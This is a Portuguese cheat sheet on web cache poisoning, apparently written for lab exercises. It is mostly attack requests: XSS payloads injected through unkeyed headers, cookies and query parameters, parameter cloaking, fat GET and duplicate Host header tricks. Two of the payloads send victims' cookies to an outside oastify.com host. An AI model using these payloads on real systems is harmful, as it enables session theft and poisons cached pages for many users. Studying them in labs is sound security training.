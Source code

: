 # Web Cache Poisoning

Probabilidade: $${\color{red}alta}$$.

<br>

Se você ver o header `X-Cache: hit` na resposta e a existência do arquivo `/resources/js/tracking.js`, provavelmente a aplicação está vulnerável a Web Cache Poisoning.

A primeira coisa a se testar quando ver esses recursos, é tentar refletir o domínio do exploit server atráves desses headers:
```
Host
X-Forwarded-Host
X-Host
X-Forwarded-Server
```

> [!IMPORTANT]
> Envie as requisições para envenenar o cache algumas vezes, pois o envenenamento pode não funcionar nas primeiras tentativas.

Se você conseguiu refletir o exploit server na resposta, vá para o servidor, mude o nome do arquivo para `/resources/js/tracking.js` e coloque um payload para roubar o cookie da vítima no Body.
```
document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```

<br>

## Laboratórios

**Web Cache Poisoning with an Unkeyed Header**

Nesse caso você pode usar a exploração indicada acima ou colocar o payload direto no header.
```
X-Forwarded-Host: test.com"></script><script>alert(document.cookie)</script>//
```

<br>
<br>

**Web Cache Poisoning with an Unkeyed Cookie**
```
fehost=someString"-alert(1)-"someString
```

<br>
<br>

**Web Cache Poisoning with Multiple Headers**

Use a extensão Param Miner para identificar o header `X-Forwarded-Scheme`. Qualquer outro valor diferente de HTTPS vai retornar status 302 com um header `Location`.

Use esse header com o header `X-Forwarded-Host` para redirecionar o usuário para seu exploit server.
```
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0ab300bf03adb37181e4d360010c007b.exploit-server.net
```

<br>
<br>

**Targeted Web Cache Poisoning using an Unknown Header**

Use a extensão Param Miner para ver que o header **X-Host** está sendo refletido em:
```
<script type="text/javascript" src="//example.com/resources/js/tracking.js">
```

Observe que o header Vary especifica o User-Agent, então precisamos saber o browser da vítima.

A feature de comentário permite tags HTML, então podemos usar isso para enumerar o navegador dela.
```
<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />
```

Agora podemos adicionar esse User-Agent na request para envenenar o cache corretamente.
```
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: AGENTE USADO PELA VÍTIMA
X-Host: attacker.com
```

<br>
<br>

**Web Cache Poisoning via an Unkeyed Query String**

Observe que você ainda recebe a resposta como cacheada ao incluir parâmetros na URL, ou seja, eles não fazem parte do cache key.

Adicione um parâmetro que quebre a string refletida e injete um XSS:
```
GET /?evil='/><script>alert(1)</script>
```

Versão adaptada:
```
GET /?evil='/><script>document.location='https://c2fsr4s3dcy11k6m80vnarmyjppgd7gv5.oastify.com/?cookies';</script>
```

<br>
<br>

**Web Cache Poisoning via an Unkeyed Query Parameter**

Observe que você recebe um cache miss toda vez que muda um parâmetro da URL.

Utilize a função "Guess GET parameters" do Param Miner para identificar que o parâmetro `utm_content` é aceito pela aplicação.

Confira que esse parâmetro não é um cache key e insira o payload para quebrar a string refletida:
```
GET /?utm_content='/><script>alert(1)</script>
```

<br>
<br>

**Parameter Cloaking**
```
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```

<br>
<br>

**Web Cache Poisoning via a Fat GET Request**

Note que você pode mudar o nome da função a ser chamado passando o parâmetro `callback` usando uma Fat Request, mas a cache key ainda será o parâmetro da URL.
```
# REQUISIÇÃO
GET /js/geolocate.js?callback=setCountryCookie
…
callback=arbitraryFunction

# RESPOSTA
HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})
```

<br>
<br>

**URL Normalization**

No Burp Repeater, navegue para um diretório inexistente como /random e observe que o caminho requisitado é refletido na mensagem de erro.

Adicione o payload:
```
GET /random</p><script>alert(1)</script><p>foo
```

Observe que se você requisitar esse caminho direto pelo navegador, o payload não execute porque está encodado em URL.

No Burp Repeater, envenene o cache com o seu payload e imediatamente carregue a URL no navegador.

Dessa vez, o `alert()` foi executado porque o payload encodado pelo navegador foi decodado pelo cache, causando um cache hit com a request anterior.

<br>

### Outros

**Poison Ambiguous Request**
```
Host: TARGET.net
Host: exploit.net
```
